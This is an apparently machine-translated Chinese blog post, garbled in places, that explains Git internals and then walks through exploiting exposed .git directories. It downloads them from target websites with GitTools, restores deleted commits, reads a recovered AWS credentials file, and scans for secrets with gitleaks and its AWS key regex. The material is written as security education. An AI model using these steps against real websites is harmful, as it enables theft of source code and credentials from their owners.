

# 暴露了。git 目录利用

> 原文：<https://infosecwriteups.com/exposed-git-directory-exploitation-3e30481e8d75?source=collection_archive---------0----------------------->


([https://media . pitchfork . com/photos/5c 1 aaaaabe 35 c 444 aebf 1 AFB 3/1:1/w _ 320，c _ limit/sick % 20 boy _ the % 20 chain smokers . jpg](https://media.pitchfork.com/photos/5c1aaaabe35c444aebf1afb3/1:1/w_320,c_limit/sick%20boy_the%20chainsmokers.jpg))

将近两百万。Cybernews 研究小组发现，包含重要项目信息的 git 文件夹被公开。Git 是最流行的开源分布式版本控制系统。如果您或您的组织将 git 用于代码或存储库，那么您应该考虑。git 文件夹暴露可能对您的资产构成风险。

答。git 文件夹包含关于远程存储库地址、提交历史日志和其他元数据的基本信息。的访问控制不好，源代码就会泄露。git 文件夹。借助工具，代码中硬编码的敏感数据可以在几秒钟内被挖掘出来。这篇博客文章将告诉你如何找到暴露的。git 文件夹并识别里面的硬编码秘密。git 文件夹。

# Git 内部

答。git 文件夹是在你执行新项目的`git init`或者从其他地方拉项目的`git clone`时创建的。

Git 是一个简单的键值数据存储。. git 目录如下所示:

```
config
description
HEAD
index
hooks/
info/
logs/
objects/
refs/
```

当您将任何类型的内容插入 Git 存储库时，它将返回一个惟一的键，供您以后检索该内容。的。git 文件夹存储项目的元数据和对象。这里的“对象”包括“二进制大对象”、“树”、“提交”和“标签”。

*   `blob` —一般是一个文件，用来存储文件数据
*   `tree`——基本上像一个目录——它引用了一堆其他的树和/或斑点
*   `commit` —一棵树，标记项目在某个时间点的样子。
*   `tag` —以某种方式将特定提交标记为特殊的方法

每个对象都有要在 Git 中操作的哈希值。

如果您有一个具有以下目录结构的简单项目:

```
$>tree
.
|-- README
`-- lib
    |-- inc
    |   `-- tricks.rb
    `-- mylib.rb
​
2 directories, 3 files
```

在将它提交到 Git 存储库之后，它会被表示成这样:



(来自[http://shafiul . github . io/git book/assets/images/figure/objects-example . png](http://shafiul.github.io/gitbook/assets/images/figure/objects-example.png))

上图中`commit`对象的`parent`代表项目历史中的上一步。只有“根”提交没有父级，代表项目的初始修订。

要梳理所有对象，可以从一个`commit`对象开始。

你不必记住这些伴随对象的散列，因为 Git 提供了引用或`refs`，一个存储在`.git/refs`中的文件包含了上图中`commit`对象的散列。

`.git/refs`文件夹结构如下所示:

```
heads/
master
remotes/
tags/
```

在`.git/refs/heads/`中，您的存储库中有本地分支，其文件名与相应分支的名称相匹配。

例如，您有一个名为`main`的分支，您可以在`.git/refs/heads/main`文件中找到对`main`分支的最新提交的散列，并且每次您提交一个新的提交时，这个`main`文件中的散列都会改变。

```
$ cat .git/refs/heads/main
da09407c30b6f378fb15e660ac80a282f61d466a
```

您可以使用下面的命令检查当前的提交

```
$ git log -1 main
commit da09407c30b6f378fb15e660ac80a282f61d466a
Author: ....
​
​
$ git show -s --pretty=raw da09407c30b6f3
commit da09407c30b6f378fb15e660ac80a282f61d466a
tree eb7a07fde7f8cf8dfd274bb6a5cf98997d91c5a6
parent 77fbaa460d95ba8144ebb75872c2fca865a41128
```

要检索这些对象的内容，使用命令`git cat-file`检查对象内容。通过`-p`向命令传递对象散列，以指示命令显示对象内容。

```
$ git cat-file -p eb7a07fde7f8cf8dfd274bb6a5cf98997d91c5a6
040000 tree 559d614af20026a8191d078d2c409885dc0b7c54    Java
100755 blob b0292c7d67b7cd41f538bbc574bb8acb198f8083    init.txt
​
$ git cat-file -p  b0292c7d67b7cd41f538bbc574bb8acb198f8083
function name: backend
languange: nodejs
```

这些对象作为数据文件存储在`.git/objects/<First-2-bytes>/<Last-38-bytes>`文件夹中。`<First-2-bytes>`和`<Last-38-bytes>`是指目标对象的 SHA1 哈希。比如可以在`.git\objects\b0`里面找到存储为 292 c 7d 67 b 7 CD 41 f 538 BBC 574 bb 8 ACB 198 f 8083 对象的数据文件为 292 c 7d 67 b 7 CD 41 f 538 BBC 574 bb 8 ACB 198 f 8083。用 Notepad ++打开文件 292 c 7d 67 b 7 CD 41 f 538 BBC 574 bb 8 ACB 198 f 8083 文件，里面只是乱码。


这是因为目标文件 292 c 7d 67 b 7 CD 41 f 538 BBC 574 bb 8 ACB 198 f 8083 是压缩文件。你可以在阅读之前用 Ruby 解压它。

```
ruby -rzlib -e 'print Zlib::Inflate.new.inflate(STDIN.read)' < .git/objects/b0/292c7d67b7cd41f538bbc574bb8acb198f8083
```

# 有趣的部分:利用

步骤 1:下载。git 储存库

去寻找暴露的人。git 库，可以简单添加。git 在目标网站的根 URL。不幸的是，有时您可能会遇到两种不同的 HTTP 错误:

*   **404 错误-。服务器中不存在 git** 或路径错误
*   **403 禁止-。git** 存在，但是您无法列出该服务器中的文件夹

对于第二个错误，它可能是由于在服务器上禁用目录列表而导致的，您可以继续尝试。git 文件夹类似`.git/config`。

一旦识别出暴露者。git 存储库，下一步是提取。手动 git 文件夹或者使用工具，例如 [GitTools](https://github.com/internetwache/GitTools) 库中的 dumper.sh 来自动化这个过程。命令行类似于:

```
bash gitdumper.sh [http://target/.git/](http://target/.git/) <dest-dir>
```

注意:后面的斜杠。目标 URL `http://target/.git/`中的 git 不能省略，否则会得到一个错误:

```
###########
# GitDumper is part of [https://github.com/internetwache/GitTools](https://github.com/internetwache/GitTools)
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########
​
[-] /.git/ missing in url
```

第二步:探查。git 文件夹

一旦下载了。git 完成后，您可以查看整个本地的所有状态变化。例如，如果一个开发人员删除了一个名为`credentials`的文件并提交了更改，您将会看到用`git status`命令提交凭证文件删除。

```
$ git status
​
# On branch master
# Changes not staged for commit:
#   (use "git add/rm <file>..." to update what will be committed)
#   (use "git checkout -- <file>..." to discard changes in working directory)
#
#       deleted:    credentials
​
no changes added to commit (use "git add" and/or "git commit -a")
​
```

状态结果只显示被删除的文件`credentials`，我们可以运行`git checkout -- .`或`git restore .`将本地存储库重置为最后一次提交以检索被删除的`credentials`文件。

```
$ git checkout -- . 
$ ls 
credentials
```

但是，如果在最后一次提交之前很久，还有其他包含敏感数据的文件在历史提交中被删除，那么如何检索这些文件中的敏感数据呢？您可能想使用`git cat-file`命令来检查所有的目标文件，但是手动探测过程是冗长而费力的。

有一些工具可以帮助你！

首先，您可以使用 [GitTools](https://github.com/internetwache/GitTools) 中的 extractor.sh 来恢复源代码。

```
$ extractor.sh ./ .git
###########
# Extractor is part of [https://github.com/internetwache/GitTools](https://github.com/internetwache/GitTools)
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########
[+] Found commit: bfe7e60fd375eddfc286e6aefdb360df0928aa0d
[+] Found file: /home/.../.git/0-bfe7e60fd375eddfc286e6aefdb360df0928aa0d/credentials
[+] Found commit: 6dba12c2c6f9fe9ad237cf25e5f7c82f7eac4adf
[+] Found commit: 30dbbdfb0e0eba2aa3f42b799d55cd35a2c431d6
...
```

然后继续用简单的 cat 命令检查恢复文件的内容，直到找到有价值的东西。

```
$ cat .git/0-bfe7e60fd375eddfc286e6aefdb360df0928aa0d/credentials
​
[default]
aws_access_key_id = AKIAY5LSWGTEN2Q4DRRFK
aws_secret_access_key = tJ9Ja....kJ/d9cktW
```

您可以使用另一个工具 [gitleak](https://github.com/zricethezav/gitleaks) ，这是一个 SAST 工具，用于检测和防止硬编码的秘密，如 git repos 中的密码、api 密钥和令牌。`gitleak`工具使用规则来检测秘密，您可以在配置文件中自定义您自己的规则，并在命令行中用`-c`或`--config`标志指定它。

使用`gitleak`在垃圾场中搜寻秘密。git 文件夹，导航到。git 文件夹并尝试以下命令:

```
$ docker pull zricethezav/gitleaks:latest
$ docker run --security-opt label:disable  -v $(pwd):/tmp:z zricethezav/gitleaks:latest detect --source="/tmp" -v
​
    ○
    │╲
    │ ○
    ○ ░
    ░    gitleaks
​
​
Finding:     ws_access_key_id = AKIAY5LSWGTEN2Q4DRRFK
Secret:      AKIAY5LSWGTEN2Q4DRRFK
RuleID:      aws-access-token
Entropy:     4.021928
File:        credentials
Line:        1
Commit:      30dbbdfb0e0eba2aa3f42b799d55cd35a2c431d6
Author:      ...
Email:       ...
Date:        2022-10-22T05:58:44Z
Fingerprint: 30dbbdfb0e0eba2aa3f42b799d55cd35a2c431d6:credentials:aws-access-token:1
```

它使用带有 RuleID aws-access-token 的规则来标识 ws_access_key_id。

由于执行过程中没有指定配置文件，使用内置的配置文件 [gitleaks.toml](https://github.com/zricethezav/gitleaks/blob/master/config/gitleaks.toml) ，在 [gitleaks.toml](https://github.com/zricethezav/gitleaks/blob/master/config/gitleaks.toml) 中的`aws-access-token`规则如下:

```
[[rules]]
description = "AWS"
id = "aws-access-token"
regex = '''(A3T[A-Z0-9]|AKIA|AGPA|AIDA|AROA|AIPA|ANPA|ANVA|ASIA)[A-Z0-9]{16}'''
keywords = [
    "akia","agpa","aida","aroa","aipa","anpa","anva","asia",
]
```

# 最后的想法

如果您有任何问题或反馈，请随时发表评论。如果你认为这篇博文有帮助，请点击拍手👏按钮下面几下，以示支持！也可以通过 [LinkedIn](https://www.linkedin.com/in/yani-dong-041a1b120/) 联系我。

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！